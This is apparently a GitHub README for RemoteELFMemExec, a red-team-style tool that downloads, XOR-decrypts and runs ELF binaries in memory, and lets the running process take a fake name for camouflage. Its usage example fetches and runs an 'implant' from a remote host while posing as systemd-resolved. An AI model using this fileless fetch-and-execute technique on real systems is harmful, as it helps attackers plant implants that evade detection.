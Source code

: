 <h1 align="center">
	<img src="https://github.com/user-attachments/assets/e4ebb8a9-9b09-43d3-b7a9-ba7c4a877631"width="200px"><br>
    RemoteELFMemExec
</h1>

**RemoteELFMemExec** is a tool designed to download, decrypt, and execute ELF binaries directly in memory from a remote URL. This utility enables the execution of executable files without writing them to disk, leveraging memory-based execution for enhanced stealth and efficiency. The tool uses XOR encryption to securely decrypt the ELF binary before execution.

Additionally, RemoteELFMemExec allows specifying a process name similar to `exec -a`, which facilitates process camouflage and helps it appear as a legitimate process.


> **⚠️ Warning:** On legacy systems, such as CentOS 6, it is not possible to execute ELF files directly in memory due to the lack of support for the `memfd_create` function, introduced in Linux 3.17. In these environments, the process downloads the encrypted ELF file to disk, decrypts it, executes it, and then deletes it.



## Compilation

### Requirements

Before compiling, ensure you have the following packages installed:

- `gcc`
- `make`
- `libcurl4-openssl-dev`


### Debug Mode
```bash

make

```
**⚠️ Warning:** To enable static compilation, you must compile `lcurl` as a static library.
### Static Compilation
```bash

make  static

```
### Legacy Systems
```bash

make  legacy

```
### Static Compilation for Legacy Systems
```bash

make  legacy_static

```
## Usage
```bash

./elfMemExecutor  <Url>  <Key>  <Alias_process>

```
## Example
```bash

./elfMemExecutor  http://192.168.1.190/test_implant.enc  0331afffba74a654b4e8  "/lib/systemd/systemd-resolved"

```
### Example Debug Mode
![image](https://github.com/user-attachments/assets/2d24acdb-6623-438e-904d-55094cf02396)


### Example Static 
![image](https://github.com/user-attachments/assets/6991bee4-2f0e-4d95-8812-7ee810b4afaa)

### Example Legacy 
![image](https://github.com/user-attachments/assets/905d9cad-0181-4b85-b83f-401228839c6c)

